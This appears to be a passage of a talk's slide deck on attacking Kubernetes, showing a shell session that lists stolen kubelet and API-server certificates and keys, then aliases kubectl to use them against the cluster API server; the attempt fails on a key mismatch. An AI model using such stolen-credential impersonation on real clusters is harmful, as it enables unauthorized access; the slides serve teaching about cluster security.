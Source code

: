 ```coffeescript
root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key  node.crt

root@hckd# alias khack2="kubectl \
#               --client-certificate    node.crt           \
#               --client-key            kubelet.key           \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"


root@hckd# khack2 get pods
error: tls: private key type does not match public key type
```

---
### Exploit pwnd certificate
[.code-highlight: 11-13]

```coffeescript
root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key  node.crt

root@hckd# alias khack2="kubectl \
#               --client-certificate    node.crt           \
#               --client-key            kubelet.key           \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"


root@hckd# khack2 get pods
error: tls: private key type does not match public key type
```
????

---
### Exploit pwnd certificate
```coffeescript
root@hckd# khack2 get pods
error: tls: private key type does not match public key type                     


```


The Kubelet Bootstrapper created a new private key...

---
### Exploit pwnd certificate
```coffeescript
root@hckd# khack2 get pods
error: tls: private key type does not match public key type                     


```
